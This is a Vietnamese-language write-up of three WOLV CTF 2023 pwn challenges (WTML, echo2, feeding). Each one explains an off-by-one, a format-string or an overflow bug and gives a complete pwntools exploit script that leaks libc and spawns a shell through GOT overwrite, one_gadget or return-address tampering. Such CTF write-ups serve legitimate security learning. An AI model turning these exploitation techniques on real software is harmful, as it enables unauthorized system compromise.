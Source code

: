 # WOLV CTF 2023
<details>
<summary>1. WTML </summary>
    
- Bài này cho ta 1 file source, 1 file binary và 1 file docker, 1 file libc
- Đầu tiên ta `checksec` 
    
![](https://i.imgur.com/dXXX6AD.png)

- Bài No RELRO cùng với cho sẵn file libc nên nghi mùi leak đâu đây
- Tiếp theo mở file source lên đọc, khá dài và ta phân tích từng func như sau.
- Đầu tiên hàm main yêu cầu ta nhập `user_message` dài 0x20 byte, nhưng khai báo là `user_message[0x20]`. Ở đây bị lỗi Off by one do cần thêm 1 byte làm null terminator
- Tiếp theo chương trình loop, mỗi vòng lặp yêu cầu ta nhập ký tự mới cần thay và ký tự mới để thay. Mặc định chương trình sẽ gọi hàm `replace_tag_v1`, ngoài ra cũng có hàm `replace_tag_v2` bị lỗi format strings.
    
![](https://i.imgur.com/j8khRpm.png)

- Do đó mục tiêu của ta là làm sao để chuyển hướng chương trình qua `replace_tag_v2`. Ở đây ta thấy bắc buộc phải làm sao để id = 1. 
- Do cấp sẵn source nên mình build lại để add thêm mấy cái symbol trong source cho debug dễ hơn.
    
![](https://i.imgur.com/slrg3Zg.png)

- Tiếp theo ta gdb debug để coi lỗi off by one có thể lợi dụng để làm gì.
- Đầu tiên ta xem `user_message` và `replacer.id` ở đâu trong bộ nhớ.
    
![](https://i.imgur.com/KlL7pTs.png)

![](https://i.imgur.com/bsg5dRB.png)

- Nhìn vào thì ta thấy được byte tiếp theo tức `user_message[32]` chính là `replacer.id`
- Tiếp theo vào `replace_tag_v1` xem có thay đổi được `user_message[32]` không.

![](https://i.imgur.com/a93Ep5s.png)

- Ta thấy có `message[end_tag_index + 2] = to;` chính là lệnh hợp lý nhất để over bound mảng. Ta cần `message[32]= /x01` => `end_tag_index = 30` => `i = 30` => `start_tag_index = 27`. Mà để `start_tag_index = 27` thì ở vị trí thứ 27 phải là `<`,28 là `\x00`, 29 là `>`,30 là `<`, 31 là `/`, 32 byte `\x00` có sẵn. Từ vị trí 0 tới 26 muốn là gì cũng được, miễn sau xong hết là đủ 32 byte.
- Vậy khi đó ta overwrite index = 1 sẽ nhảy qua `replace_tag_v2` bị lỗi format string. Mà ở đây cho ta nhập vào stack + RELRO tắt nên đưa về dạng SGK overwrite GOT. Ở đây mình Overwrite got của `printf` thành `system`
- Vậy bài này chỉ khó chỗ lợi dụng off by one để overwrite index thành 1. Overwrite xong thì đưa về dạng SGK
- Kết hợp ý tưởng trên ta viết script: 
```python
from pwn import *
exe = ELF("testo")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p = process(exe.path)
'''
gdb.attach(p,
"""
b*replace_tag_v2
c
""")
input()
'''
p.sendafter(b'L!\n',b'%11$llx\x00bbbbbbbbbbbbbbbbbbb<\x00></')

p.sendlineafter(b'What tag would you like to replace [q to quit]?\n',b'\x00')
p.sendlineafter(b'With what new tag?\n',b'\x01')

p.sendlineafter(b'What tag would you like to replace [q to quit]?\n',b'a')
p.sendlineafter(b'With what new tag?\n',b'b')
p.recvuntil(b'[DEBUG] ')
leak_libc = int(p.recvn(12) ,16)
libc.address = leak_libc - 569197
print('libc : ',hex(libc.address))
p.sendlineafter(b'about v2: ',b'%18$llx')
p.recvuntil(b'Your respones: "')
leak_exe = int(p.recvn(12),16)
exe.address = leak_exe - 8360
print('exe : ',hex(exe.address))


p.sendlineafter(b'What tag would you like to replace [q to quit]?\n',b'a')
p.sendlineafter(b'With what new tag?\n',b'b')
write1 = libc.sym['system'] & 0xff
write2 = libc.sym['system'] >> 8 & 0xffff
payload = f'%{write1}c%12$hhn%{write2-write1}c%13$hn'.encode()
payload = payload.ljust(0x20,b'A')
payload += p64(exe.got['printf'])  + p64(exe.got['printf']+1)
p.sendlineafter(b'about v2: ',payload)

p.sendlineafter(b'What tag would you like to replace [q to quit]?\n',b'a')
p.sendlineafter(b'With what new tag?\n',b'b')
p.sendline(b'/bin/sh\x00')

p.interactive()
```
</details>

<details>
<summary>2. echo2 </summary>
    
- Bài này cho 1 file binary,1 file source,1 file libc
- Đầu tiên checksec

![](https://i.imgur.com/Rlqstf1.png)

- Tiếp theo vào IDA xem thử
    
![](https://i.imgur.com/EWv7VuW.png)

- Đọc code thì ta nhận thấy đề yêu cầu ta nhập v2 và chương trình lấy nhiêu đó byte nhập tiếp và `ptr` nên ở đây có lỗi buffer overflow.
- Ở đây PIE enable nên không thể leak libc bằng cách vào PLT được. Ta thây ret address của `echo` là địa chỉ của exe, ở đây ta có hướng overwrite 1 phần address này thành địa chỉ nào đó cũng trong exe được do offset không đổi.

![](https://i.imgur.com/7F5dNNI.png)
    

- Sau một hồi đọc code ta thấy ta cần nhảy vào main lại, trước khi nhảy thì có hàm `printf` in ra cái ta nhập vào. Do đó nó sẽ leak luôn cái địa chỉ main ta ret vào đến khi gặp byte null thì thôi. Do đó ở đây ta sẽ leak được exe.

![](https://i.imgur.com/v3OHxzQ.png)

- Ở đây ta nhẩy vào `main+5` do lúc đầu mình nhảy vào `main` bị xmm sigsegv. Ta thấy `main+5` chỉ khác ret address kia là byte `\x4c` nên ở đây ta chỉ cần overwrite 1 byte
- Sau khi leak được exe thì ở đây mình vào ROPgadget tìm pop_rdi nhưng không thấy => không control được rdi nên leak libc bằng cách khác.
- May mắn là trước khi `ret` ở `echo` thì rdi trỏ về `funlockfile` thuộc về libc => leak libc bằng cách overwrite bằng PLT puts. 

![](https://i.imgur.com/I4xbaro.png)

- Sau khi puts leak thì mình vào lại `echo` tìm `one_gadget` để ret2libc. Ở đây mình chọn cái này
    
![](https://i.imgur.com/4oJbvKP.png)

- Lúc đầu mình ret vào thì bị sigsegv, nhìn lại thì phải làm thoả điều kiện [rbp-0x78] ghi được. Ở đây mình overwrite `rpb` thành địa chỉ `bss+0x78`(để khi trừ ra ngay cái bss luôn)
- Script:
```python
from pwn import *
exe = ELF("challenge")
libc = ELF("libc.so.6")
p = process(exe.path)
gdb.attach(p,
"""
b*echo+123
c
""")
input()
p.sendlineafter(b'2\n',b'281')
payload = b'A'*278+b'L'+b'\x4c'
p.sendline(payload)
p.recvuntil(b'L')
leak = u64(p.recvline()[:-1] + b'\x00\x00')
exe.address = leak - 4684
print(hex(exe.address))

p.sendlineafter(b'2\n',b'296')
payload = b'A'*279+p64(exe.plt['puts']) + p64(exe.sym['echo'])
p.sendline(payload)

leak = p.recvline()
leak = p.recvline()
leak_lib = u64(p.recvline()[:-1] + b'\x00\x00')
libc.address = leak_lib - 401616
print("leak lib : ",hex(libc.address))
p.recvuntil(b'Echo2\n')
p.sendline(b'296')

payload=b'\x00'*271+p64(exe.bss()+0x78)+p64(exe.address + 0x000000000000101a) + p64(libc.address +0xebcf1)
p.send(payload)
p.interactive()
```
</details>

<details>
<summary>3. feeding </summary>
- Bài này cho ta file source và file binary
- Đầu tiên ta checksec
    
![](https://i.imgur.com/gkecsAO.png)

- Tiếp theo mình vào file source thì thấy khá dài và để đơn giản cho debug thì mình compile lại.
    
![](https://i.imgur.com/peFqSmh.png)

- Tiếp theo vào source, bài này khai báo struct khá nhiều và sài con trỏ để access vào dữ liệu trong struct. Cá nhân mình xem từng cái nó trỏ là 1 biến riêng lẽ để dễ hình dung vì xét về bản chất thì struct cũng là mấy biến nằm liên tục trên bộ nhớ.
- Ta phân tích từng hàm.
- Đầu tiên sẽ khởi tạo `flag` và đề dùng cái số trong file flag đó đưa vào cái `flag_map`. Mục đích của ta là leak số đó.
    
![](https://i.imgur.com/2LKn9JS.png)

- Tiếp theo sẽ chạy hàm loop cho ta các lựa chọn : `feed` - thêm vào `map` , `view` - để xem tên, và lựa chọn thoát.
- Hàm quan trọng sài xuyên suốt là `increment`. Ta thấy hàm đầu tiên hash chuỗi ta nhập để tìm index. `index` luôn từ 0->9. rồi check xem tên ta nhập có chưa, có rồi thì sẽ cộng vô weight, chưa thì thêm vào.

![](https://i.imgur.com/SSArcLQ.png)

- Ta phân tích tiếp hàm `hash_string` thì thấy cách nó hash rất đơn giản, chỉ lấy mã ascii của từng ký tự trong tên *31 rồi cộng lại hết thôi. Do đó ở đây ta có thể tìm được họ các string mà đều return về cùng 1 index

![](https://i.imgur.com/WLzFGLR.png)

- Dựa vào đều đó ta vào lại `increment` để xem thì nhận thấy hàm `loop` lặp 5 lần, mỗi vòng lặp ta có thể nhập string cùng hash ra 1 index thì lần thứ 5 sẽ overflow do `bin[index][i]` khai báo là `bin[10][4]` tức index max ta nhập được là `bin[9][3]`. => Có lỗi off by one

- Sau đó ta debug xem thử lỗi off by one này làm được gì thì thấy rằng nếu ta truy cập vào bin[9][4] sẽ thay đổi ret address của main bằng cách cộng hay trừ với `weight`

![](https://i.imgur.com/IOb5ApN.png)

![](https://i.imgur.com/nQFmogt.png)

- Để tạo được họ string mod 10 = 9 thì ta chỉ cần tạo chuỗi có một số 1 còn lại là bao nhiêu 'F' cũng được. Để giải thích điều này thì dựa vào đồng dư ta có (a+b+c)%d = a%d + b%d + c%d. Mà ord(F) tận cùng là 0 nên nhân với 31 rồi mod 10 cũng ra 0 (mod 10 tức lấy chữ số cuối cùng), (ord(a)*31) % 10= 9. 
- Vậy thì ta chỉ cần tính toán nên ret vào đâu để leak `weight` thì thấy trong hàm increment set sẵn arguments cho ta và có hàm `prints` để in ra => nhảy vào `prints` luôn. Thực tế ta nhảy vào `prints+5` để không bị `sigsegv` và ta tính ra offset cần trừ là -1286
    
![](https://i.imgur.com/l3iI6Ml.png)

- Script:
```python
ryan@ryanisme:~/ctf/problems/wolf/feeding$ cat lmao.py
from pwn import *
exe = ELF("test")
p = process(exe.path)

for i in range(0,4) :
        p.recvuntil(b'> ')
        p.sendline(b'1')
        p.sendlineafter(b' name: ',b'1'+b'F'*i)
        p.sendlineafter(b' them: ',b'100')
gdb.attach(p,
"""
b *increment
c
""")
input()
p.recvuntil(b'> ')
p.sendline(b'1')
p.sendlineafter(b' name: ',b'1'+b'F'*5)
p.sendlineafter(b' them: ',b'-1286')
p.interactive()
```
</details>
